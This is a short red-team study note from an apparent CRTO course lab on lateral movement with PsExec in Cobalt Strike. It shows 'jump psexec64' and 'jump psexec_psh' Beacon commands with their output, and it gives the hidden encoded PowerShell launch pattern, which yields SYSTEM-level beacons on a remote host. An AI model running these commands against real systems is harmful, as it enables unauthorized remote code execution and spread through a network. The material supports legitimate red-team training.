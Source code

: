 
PsExec is a Windows telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.


## 🖊️ via Cobalt Strike

The `psexec` / `psexec64` commands work by uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  Beacons executed this way run as SYSTEM.

For example:

```
beacon> jump psexec64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (\\web\ADMIN$\768870c.exe)

Started service 768870c on web.dev.cyberbotic.io
[+] established link to child beacon: 10.10.122.30
```

![[psexec.png]]


#### psexec_psh

Another variation to this is `psexec_psh`, this one doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).  The pattern it uses by default is `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ...`.

Example:

```
beacon> jump psexec_psh web smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (PSH)

Started service bd119dd on web
[+] established link to child beacon: 10.10.122.30
```


## 📔 Description

- 

##  📗 Action to perform 


### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 13:44
🏷️ tags: #redteam #crto #Windows 

---

